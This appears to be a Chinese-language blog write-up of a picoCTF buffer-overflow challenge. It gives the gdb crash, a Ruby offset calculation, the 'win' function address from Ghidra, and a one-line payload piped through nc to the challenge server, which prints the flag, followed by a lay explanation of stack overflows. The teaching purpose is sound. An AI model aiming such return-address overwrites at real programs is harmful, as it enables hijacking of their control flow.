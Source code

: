 ```shell
> gdb vuln
gdb-peda$ r <<< $( ruby -e ' t = "z"; 100.times do print(t.succ!) end ' )
...
Stopped reason: SIGSEGV
0x78617761 in ?? ()
```

然后计算偏移量: 

```irb
3.0.0 :001 > t = "z"; 100.times do print(t.succ!) end
aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbebfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzcacbcccdcecfcgchcicjckclcmcncocpcqcrcsctcucvcwcxcyczdadbdcdddedfdgdhdidjdkdldmdndodpdqdrdsdtdudv => 100 
3.0.0 :002 > s = "aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbe
bfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzcacbcccdcecfcgchcicjckclcmcncocpcqcrcs
ctcucvcwcxcyczdadbdcdddedfdgdhdidjdkdldmdndodpdqdrdsdtdudv"
 => "aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbebfbgbhb... 
3.0.0 :003 > addr = "\x78\x61\x77\x61"
 => "xawa" 
3.0.0 :004 > s.index addr.reverse
 => 44
```

然后用ghidra找到`win`函数的地址: `080491f6`, 
然后运行: 

```shell
> ruby -e 'print "a" * 44 + "\x00\x00\x00\x00\x08\x04\x91\xf6".reverse' | nc saturn.picoctf.net 62004
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_c76b273b}
```

结束.

为了防止你不太懂, (假如是高手的话, 请跳过吧)
之所以会有栈溢出这样的东西, 是因为计算机里面, 为了储存局部变量, 
就需要通过开辟一个临时的空间来放. (这个可以去我的
[Computer Toys]({{ site.github.url }}/ruby/ri-lang), 或者之前的
[Stack]({{ site.github.url }}/ctf/stack/)看看, 
并且我打算最近更新一下Stack, 因为有了新的理解了. )

这个临时空间是这样的一个概念, 假如我要放一个长度为10的数组, 
那么我就要开辟一个大小为10的空间, 也不用太多, 防止浪费. 
然后在写数据的时候, 就按照位置来写入数据. 但是这个时候, 
可能就会出现一个问题: 如果我往数组的第11个位置写入了数据会怎么办? 
谁也不知道会怎么办, 毕竟(我觉得)一开始人们并没有想过这样的问题, 
设计者绝对想不到自己的使用者都是这样的奇怪的人. 
所以当你写的时候, 就会写到原本开辟的空间外面, 比如说, 
写到了函数的返回地址里面. 

关于这个, 简单理解就像是, 函数调用就好像是刘禅(小名阿斗, 
比如说是计算机的eip寄存器, 
就是指向当前CPU运行的命令的地址的一个寄存器)
被捉到了一个新的地方(eip跳转到了函数的区域), 本来心里面还有蜀国
(也就是原来调用函数的主程序的地址, 被储存在栈里面), 
但是你的play太奇怪了, 让他心里(也就是计算机的栈里面储存的返回地址)
的某些东西被被改变了, 导致他乐不思蜀(返回地址被修改了), 回不去了, 
最后就到了奇怪的地方, 可能会被利用了. (比如说让计算机返回一个特定的地址, 
然后执行特定的函数). 上面的过程就是这么样的一个过程. 
